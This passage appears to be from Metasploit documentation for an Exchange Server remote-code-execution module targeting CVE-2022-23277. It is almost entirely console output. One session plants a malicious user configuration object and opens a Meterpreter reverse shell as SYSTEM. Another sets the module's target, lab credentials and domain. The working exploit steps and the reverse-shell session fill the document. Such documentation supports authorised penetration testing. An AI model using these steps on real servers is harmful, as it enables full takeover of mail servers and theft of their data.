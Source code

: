 ```
[+] The target appears to be vulnerable. Exchange Server 15.1.2375.18 is vulnerable to CVE-2022-23277
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD9j/m9iNuTRpA5mrD5EV0AAAB3/PSE
[+] ID value for Inbox folder is AQMkADU1ADBhYjYzMi02MTQ3LTRlOTEtYjU1ADAtN2M0ZDBhYjYzODVlAC4AAAMhko4gUQEoR6mlLklj/zwrAQD9j/m9iNuTRpA5mrD5EV0AAAMBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:59440) at 2022-08-16 15:47:55 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter >
```

### Exchange Server 2019 CU11 Jan22SU (Build 15.2.986.15) on Windows Server 2019 x64 (CVE-2022-23277)

```
msf6 > use exploit/windows/http/exchange_chainedserializationbinder_rce 
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1!
HttpPassword => Password1!
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN MSFLAB.LOCAL
DOMAIN => MSFLAB.LOCAL
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > show options 

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1!       yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.11   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b